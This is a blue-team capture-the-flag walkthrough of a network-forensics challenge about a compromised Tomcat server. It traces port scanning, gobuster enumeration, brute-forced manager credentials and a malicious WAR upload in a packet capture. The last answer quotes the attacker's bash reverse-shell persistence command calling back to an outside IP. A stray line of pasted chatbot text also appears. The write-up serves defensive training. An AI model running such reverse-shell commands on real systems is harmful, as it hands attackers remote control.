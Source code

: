 ![image](https://github.com/user-attachments/assets/6bf87666-b18a-428a-937f-fa07f75417d8)# <a href="https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/">Tomcat Takeover</a>

**Platform:** CyberDefenders

**Scenario:** As a cybersecurity analyst on SecureTech's Incident Response Team, you're tackling an urgent case involving a high-profile corporation that suspects a sophisticated cyber attack on its network. The corporation, which manages critical data across various industries, has experienced a ransomware attack, leading to the encryption of files and an immediate need for expert assistance to mitigate the damages and investigate the breach.

Your role in the team is to conduct a detailed analysis of the evidence to determine the extent and nature of the attack. Your objective is to identify the tactics, techniques, and procedures (TTPs) used by the threat actor to help your client contain the threat and restore the integrity of their network.

**Category:** Network Forensics

**Difficulty:** Easy

**Files:** ``

**Tools:** `Wireshark`

**Note:** In this walkthrough, we will use the FlareVM to analyze the provided file. If you have not set it up yet, I highly recommend following this [malware analysis lab](https://github.com/mmhgwyjs/malware-analysis-lab/blob/main/README.md) guide for assistance with your installation.

## **Preparations**

![image](https://github.com/user-attachments/assets/f7a3311d-b478-4375-a88a-a95dc12ee8ec)

![image](https://github.com/user-attachments/assets/c34a8f7b-f81d-4430-8386-f8a0bd1662f2)

## **Questions and Answers**

Got it! Here’s the response following your specified format without removing any details:

***1. Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?***  
**Answer: 14.0.0.120

![image](https://github.com/user-attachments/assets/3708496e-111b-4fe3-98d5-c8dad0e85b9f)

![image](https://github.com/user-attachments/assets/9f58165f-1f05-4007-82cb-7b7e3db1f71f)

![image](https://github.com/user-attachments/assets/95b0ef9e-70cf-46a2-a850-afa25942b569)

***2. Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?***  
**Answer: GUANGZHOU

![image](https://github.com/user-attachments/assets/013c7c77-ded5-4e6b-a7a5-a75c7356aba5)

***3. From the pcap analysis, multiple open ports were detected as a result of the attacker's activity scan. Which of these ports provides access to the web server admin panel?***  
**Answer: 8080

![image](https://github.com/user-attachments/assets/fa861a8b-f95e-4486-8390-3665a9a82f1f)

http.response.code==200

***4. Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?***  
**Answer: gobuster

![image](https://github.com/user-attachments/assets/8e0a406c-4102-4fe1-beb2-32bcbdb7dc19)

network miner

![image](https://github.com/user-attachments/assets/b73a9929-24f2-42b3-8e11-c4e20b2b467e)


***5. Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?***  
**Answer: /manager
http.user_agent matches "gobuster"

![image](https://github.com/user-attachments/assets/6389fa8f-b1dc-4362-bef4-31a24239c53d)

![image](https://github.com/user-attachments/assets/4cd555b9-85d5-4e91-9b2e-d11ee37c5fe5)

***6. Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?***  
**Answer: admin:tomcat

http.request.method == POST

![image](https://github.com/user-attachments/assets/7a51fe0c-85f2-47ac-b342-a11e531020fb)

![image](https://github.com/user-attachments/assets/95542c18-aa0d-49ac-9f05-ae9f441e294b)

YWRtaW46dG9tY2F0

![image](https://github.com/user-attachments/assets/a6764aa9-6f8b-4476-9766-847c57b102c6)


***7. Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?***  
**Answer: JXQOZY.war

![image](https://github.com/user-attachments/assets/498e4a65-59d1-4247-ac20-e0dfa3180bcd)

***8. Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?***  
**Answer: /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'

![image](https://github.com/user-attachments/assets/b32c189f-dc47-4416-9334-43326f11a273)

